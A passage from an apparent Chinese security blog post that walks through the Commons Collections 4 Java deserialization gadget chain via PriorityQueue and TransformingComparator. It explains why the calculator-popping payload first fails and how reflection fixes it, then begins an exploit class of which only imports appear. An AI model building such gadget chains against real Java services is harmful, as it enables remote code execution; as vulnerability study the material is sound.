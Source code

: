 然后我们就需要找其他类中 readObject 方法中是否能够调用 compare 方法，于是我们找到了 PriorityQueue 类中的`heapify() - > siftDown - > siftDownUsingComparator`

[![](assets/1701612311-742386d71ad5af552331ca0d974213fb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235553-94f03d06-20cc-1.png)

### EXP 问题：

在我们简单调用完上面的链子之后，并没能够弹出计算器，所以这里我们就要下断点调试一下，size 默认值为 0，进不了循环

```bash
private void heapify() {
        for (int i = (size >>> 1) - 1; i >= 0; i--)
            siftDown(i, (E) queue[i]);
    }
```

需要将 size 值为 2 才可以，又因为 add 函数在序列化时也能够走通链子，所以我们也和前面构造 exp 一样，先破坏一个值，然后再 add 以后使用反射修改回来：

### EXP(CC4TransformingComparator):

```bash
package EXP;


import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.*;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.map.LazyMap;
```